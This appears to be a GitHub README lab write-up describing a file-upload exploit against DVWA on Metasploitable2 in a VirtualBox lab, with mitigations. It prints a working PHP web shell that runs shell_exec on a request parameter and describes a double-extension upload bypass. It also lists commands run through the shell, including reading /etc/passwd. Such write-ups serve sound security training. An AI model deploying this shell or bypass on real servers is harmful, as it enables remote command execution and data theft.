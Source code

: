 # 🐚 Web Shell Deployment – DVWA on Metasploitable2

This project walks through the successful exploitation of a file upload vulnerability in the **Damn Vulnerable Web Application (DVWA)** hosted on **Metasploitable2**. By crafting a malicious PHP payload and bypassing weak upload validation, I was able to gain **remote command execution** in a controlled lab environment.

---

## 📌 Objective

- Identify and exploit a vulnerable file upload feature in DVWA  
- Deploy a PHP web shell and gain interactive access  
- Execute remote OS-level commands on the target system

---

## 🛠️ Lab Environment

| Role     | System                   | Notes                               |
|----------|--------------------------|--------------------------------------|
| 🧱 Target | Metasploitable 2 (DVWA) | Vulnerable web server on NAT network |
| 🧪 Attacker | Parrot OS (VirtualBox)    | Used for payload creation, testing, RCE |

**Network Setup**: Internal NAT with routing between VM instances on Oracle VirtualBox.

---

## 🧨 Vulnerability Summary

DVWA’s "Upload" module:
- Lacked file type inspection beyond extension (.jpeg/.png)
- Did not sanitize file contents (accepted embedded PHP)
- Stored files in a web-accessible path without execution restrictions

This made it vulnerable to **Remote Code Execution (RCE)** via embedded PHP in image uploads.

---

## 🧭 Exploitation Walkthrough

### 1. Upload Interface Discovery
Visited:
```
http://192.168.79.8/dvwa/vulnerabilities/upload/
```
- Confirmed image upload form was live  
- Identified weak filtering based on file extensions only

### 2. Payload Crafting
Created a simple PHP shell:

```php
<?php
if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

Saved as `shell.php.jpeg` to bypass naive extension checks.

### 3. Upload & Execution
- Uploaded payload through DVWA interface  
- Located it at:  
  ```
  http://192.168.79.8/dvwa/hackable/uploads/shell.php.jpeg
  ```

- Appended `?cmd=whoami` → output: `www-data`

### 4. Command Execution & Proof
Executed:
- `ls`, `cat /etc/passwd`, `uname -a`, and created file `I WAS HERE`  
- Result confirmed command injection and file system access under www-data privileges

---

## ⚠️ Impact

An attacker exploiting this could:
- Browse or exfiltrate sensitive data (e.g., `/etc/passwd`)  
- Install backdoors or persistence mechanisms  
- Pivot into other internal services or escalate privileges

---

## 🔒 Mitigation Recommendations

- Enforce strict MIME type checks and file content validation  
- Store uploaded files outside the webroot  
- Disable script execution in upload directories  
- Apply a WAF and least-privilege filesystem permissions

---

## 🖼️ Screenshots

_Add screenshots like the ones below once available:_

```markdown
![Payload Upload Interface](./dvwa-upload-interface.png)
![Shell Execution Output](./rce-whoami.png)
```

---

## 📄 Full Report

📥 [Download the full DVWA Web Shell deployment report (PDF)](./DVWA-Web-Shell.pdf)

This PDF details all terminal outputs, screenshots, crafted payloads, and step-by-step execution with technical evidence.

---

> _"The easiest exploit is the one you invite — never trust file uploads."_  
> — Alvin Okiya
